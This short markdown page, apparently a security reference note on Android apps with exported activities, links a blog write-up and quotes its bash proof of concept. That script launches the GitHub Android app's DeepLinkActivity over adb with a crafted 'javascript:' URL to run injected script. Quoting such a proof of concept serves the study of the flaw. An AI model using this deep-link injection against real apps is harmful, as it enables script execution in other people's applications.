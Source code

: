 # android:exported="true"

## Write-ups
|Source|Note|
|---|---|
|[Exploiting Exported activities in Android apps](https://blog.mzfr.me/posts/2020-11-07-exported-activities/)|`#!/bin/bash`<br>`path="$(printf '%s' 'javascript://github.com/%0aalert\(\"mzfr\"\)')"`<br>`adb shell am start -a android.intent.action.VIEW -n com.github.android/.activities.DeepLinkActivity -d $path`
